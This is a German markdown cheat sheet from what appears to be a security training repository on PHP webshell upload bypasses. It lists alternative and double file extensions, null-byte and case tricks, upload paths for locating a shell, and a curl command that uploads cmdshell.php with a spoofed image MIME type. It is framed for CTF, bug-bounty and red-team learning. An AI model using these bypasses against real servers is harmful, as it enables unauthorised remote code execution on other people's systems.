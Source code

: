# 🐚 PHP Webshell Upload Tricks & Bypasses

---

## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Klassische Upload-Namen für Webshells](#klassische-upload-namen-für-webshells)
- [Tarnung als Bilddatei (Double Extensions)](#tarnung-als-bilddatei-double-extensions)
- [Groß-/Kleinschreibung (Bypass durch Case-Insensitive Filter)](#groß-kleinschreibung-bypass-durch-case-insensitive-filter)
- [Weitere gebräuchliche alternative Erweiterungen](#weitere-gebräuchliche-alternative-erweiterungen)
- [Upload-Verzeichnisse testen](#upload-verzeichnisse-testen)
- [Nützliches Tool: Content-Disposition & MIME-Typ prüfen](#nützliches-tool-content-disposition--mime-typ-prüfen)
- [Siehe auch](#siehe-auch)
- [Haftungsausschluss](#haftungsausschluss)

--- 

## Einleitung

In diesem Dokument findest du typische Dateinamen- und Erweiterungstricks, die bei **File Upload Attacks** verwendet werden, um **PHP-Webshells** trotz Dateifilter oder Upload-Validierung auf einen Webserver zu schleusen.

Solche Techniken sind besonders in **Capture The Flag (CTF)**-Challenges, **Bug Bounty**-Szenarien und **Red Team Assessments** relevant – etwa wenn Dateiuploads nur scheinbar eingeschränkt werden.

> ⚠️ Diese Datei dient ausschließlich zu **Lern- und Testzwecken** in legalen Übungsumgebungen (z. B. TryHackMe, HackTheBox).

---

## Klassische Upload-Namen für Webshells

```text
cmdshell.phtml
cmdshell.pht
cmdshell.php3
cmdshell.php4
cmdshell.php5
cmdshell.php6
cmdshell.inc
```

---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Tarnung als Bilddatei (Double Extensions)

**Ziel:** 
Umgehen von Filtermechanismen, die .php blockieren, aber .jpg oder .png erlauben.

```text
cmdshell.php.jpg
cmdshell.php%00.jpg   # Null-Byte-Trick (nur bei älteren Servern möglich)
cmdshell.php;.jpg     # selten erlaubt, nutzt inkorrekte .htaccess oder MIME-Fehler
cmdshell.jpg.php
```

---

## Groß-/Kleinschreibung (Bypass durch Case-Insensitive Filter)

Manche Filter prüfen nur .php in Kleinbuchstaben:
```text
cmdshell.pHp
cmdshell.Php
cmdshell.PHP
```

---

## Weitere gebräuchliche alternative Erweiterungen
Diese Erweiterungen werden auf manchen falsch konfigurierten Servern ebenfalls als PHP interpretiert:

```text
.pht
.phtml
.php3
.php4
.php5
.inc
```
---

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Upload-Verzeichnisse testen
Wenn du eine Datei erfolgreich hochgeladen hast, teste verschiedene Uploadpfade:

```bash
http://[IP]/uploads/cmdshell.php
http://[IP]/admin/uploads/cmdshell.phtml
http://[IP]/images/cmdshell.php.jpg
```

---

## Nützliches Tool: Content-Disposition & MIME-Typ prüfen
Manche Filter prüfen den MIME-Typ. Tools wie Burp Suite oder curl helfen dir, die Content-Type-Header zu manipulieren:

```bash
curl -X POST -F "file=@cmdshell.php;type=image/jpeg" http://target/upload.php
```

---

**💡 Hinweis:** 
Wissen über Webshell-Uploadtricks hilft auch Defensive Security Teams, um Dateiuploads richtig abzusichern und forensisch zu analysieren.

---

## Siehe auch:

- [https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_web_shell_usage.md](https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_web_shell_usage.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_rce_cheat_sheet.md](https://github.com/bitRaybytes/cybersecurity/blob/main/03-web-security/webshells/php_rce_cheat_sheet.md)
- [https://github.com/bitRaybytes/cybersecurity/blob/main/04-os-enumeration/post_exploitation_tools.md](https://github.com/bitRaybytes/cybersecurity/blob/main/04-os-enumeration/post_exploitation_tools.md)

----

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---